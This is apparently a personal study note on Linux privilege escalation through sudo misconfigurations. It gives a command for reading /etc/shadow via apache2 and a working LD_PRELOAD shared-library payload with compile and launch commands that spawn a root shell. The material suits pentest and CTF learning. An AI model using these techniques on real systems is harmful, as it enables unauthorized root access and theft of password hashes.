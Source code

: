#LinuxPrivEsc 
The sudo command, by default, allows you to run a program with root privileges
Any user can check its current situation related to root privileges using the `sudo -l` command

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used

#### Leverage application functions
*apache2*
	An important flag is `-f`, this will load an alternate ServerConfigFile
	`apache2 -f /etc/shadow`

#### Leverage LD_PRELOAD
![[LD_PRELOAD.JPG]]
[LD_PRELOAD](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)
LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
The following code spawns a root shell:
```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
Compile it into a shared object (.so)
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
Use this shared object file when launching any program our user can run with sudo
`sudo LD_PRELOAD=$PWD/shell.so find`